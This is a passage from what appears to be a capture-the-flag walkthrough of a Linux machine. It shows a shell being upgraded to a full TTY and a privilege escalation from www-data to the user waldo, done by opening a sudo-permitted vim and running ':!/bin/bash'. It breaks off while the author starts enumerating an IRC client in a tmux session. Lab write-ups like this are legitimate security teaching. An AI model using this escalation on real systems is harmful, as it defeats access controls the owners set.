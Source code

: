 Upgrade to a full TTY shell.

```console
Ctrl + z
stty raw -echo; fg
export TERM=screen 
```

Listing the sudo permissions, it is possible to run the vim editor without password to open the apache configuration file.

```console
www-data@ubuntu:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables
```

## Privilege Escalation
### Sudo Permissions

Execute the following command:

```console
www-data@ubuntu:/var/www/html$ sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf
```

In the editor type:

`:!/bin/bash`


```console
waldo@ubuntu:/var/www/html$ whoami
waldo
```

### IRC - Unreal3.2.10.4

Internet Relay Chat (IRC) is a text-based chat system for instant messaging. 

Note that a tmux session is running.

```console
waldo@ubuntu:~$ ps aux | grep waldo | head -1
waldo      665  0.0  0.5  29416  3000 ?        Ss   06:03   0:00 tmux new-session -d -s irssi
waldo@ubuntu:~$ tmux ls
irssi: 1 windows (created Tue Nov 21 06:03:34 2023) [80x23]
```

The first time that I attached to the tmux session, an irssi client was open, I did not had idea, so I decided to do some research to enumerate this service.
